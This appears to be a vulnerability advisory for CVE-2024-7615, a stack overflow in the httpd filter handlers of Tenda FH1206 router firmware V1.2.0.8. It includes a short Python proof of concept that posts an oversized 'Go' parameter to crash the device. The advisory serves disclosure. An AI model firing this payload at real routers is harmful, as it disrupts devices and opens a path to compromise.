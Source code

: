 ## Overview

- Manufacturer's website: https://www.tendacn.com
- Firmware download website:
  - https://www.tendacn.com/hk/download/detail-2344.html
  - https://www.tendacn.com/us/download/detail-2344.html

## Affected version

Tenda FH1206 V1.2.0.8(8155)

## Vulnerability details

A stack overflow vulnerability exists in the `fromSafeClientFilter`，the `fromSafeMacFilter` and the `fromSafeUrlFilter`function of program `/bin/httpd` in FH1206 V1.2.0.8(8155). The `fromSafeClientFilter`function, for example, gets the `Go` parameter from the user request, and copies it directly to the stack variable `v15` using `strcpy`, causing a stack overflow.

![image1](image/1.png)

## PoC

```python
import requests

IP = '192.168.244.3'

url = f"http://{IP}/goform/SafeClientFilter"
# url = f"http://{IP}/goform/SafeUrlFilter"

data = {
    "menufacturer": "tenda",
    "Go": "a"*0x1000
}

ret = requests.post(url,data=data)
```

![demo](image/demo.png)

## CVE

CVE-2024-7615
